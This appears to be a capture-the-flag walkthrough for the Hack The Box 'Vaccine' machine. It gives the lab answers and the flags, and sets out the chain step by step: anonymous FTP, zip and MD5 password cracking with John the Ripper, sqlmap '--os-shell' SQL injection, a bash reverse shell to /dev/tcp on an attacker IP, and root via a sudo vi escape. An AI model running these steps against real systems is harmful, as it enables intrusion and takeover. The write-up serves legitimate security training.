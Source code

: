 * Besides SSH and HTTP, what other service is hosted on this box? `ftp`.

* This service can be configured to allow login with any password for specific username. What is that username? `anonymous`.

* What is the name of the file downloaded over this service? `backup.zip`.

* What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts? `zip2john`.

```bash
zip2john backup.zip > zip.hash
john --wordlist=rockyou.txt zip.hash
john --show zip.hash
backup.zip:741852963::backup.zip:style.css, index.php:backup.zip
```

Inside the `index.php` file we see `md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3"`. Therefore we save the `md5` hash in a file `md5.hash` and use `john` again. HTB tells us that the password has 9 digits and the last digit is a 9. We use this information to provide a shorter wordlist `rock9.txt`:
```bash
grep "^........9$" rockyou.txt > rock9.txt
john --fork=8 --wordlist=rockyou.txt --format=raw-md5 md5.hash
```

* What is the password for the admin user on the website? `qwerty789`.

Log in to the website and get cookie `PHPSESSID` through the browser.

* What option can be passed to sqlmap to try to get command execution via the sql injection? `--os-shell`.

The password for the `postgres` user is in `/var/www/html/dashboard.php`.

* What program can the postgres user run as root using sudo? `vi`.

```bash
sqlmap --os-shell -u 'http://10.129.125.244/dashboard.php?search=a' \
--cookie="PHPSESSID=8hqp5tfa06tf7q9985pv3hdtmv" --flush-session
nc -lvnp 4242
os-shell> bash -c 'bash -i >& /dev/tcp/10.10.14.63/4242 0>&1'
postgres@vaccine:/var/lib/postgresql/11/main$ python3 -c 'import pty; pty.spawn("/bin/bash")'
postgres@vaccine:/var/lib/postgresql/11/main$ sudo -l
User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf
postgres@vaccine:/var/lib/postgresql/11/main$ sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf
:!sudo su
root@vaccine:/var/lib/postgresql/11/main# cat /root/root.txt
root@vaccine:/var/lib/postgresql/11/main# find / -name "user.txt" 2>/dev/null
root@vaccine:/var/lib/postgresql/11/main# cat /var/lib/postgresql/user.txt
```

* Submit user flag: `ec9b13ca4d6229cd5cc1e09980965bf7`.

* Submit root flag: `dd6e058e814260bc70e9bbdef2715849`.

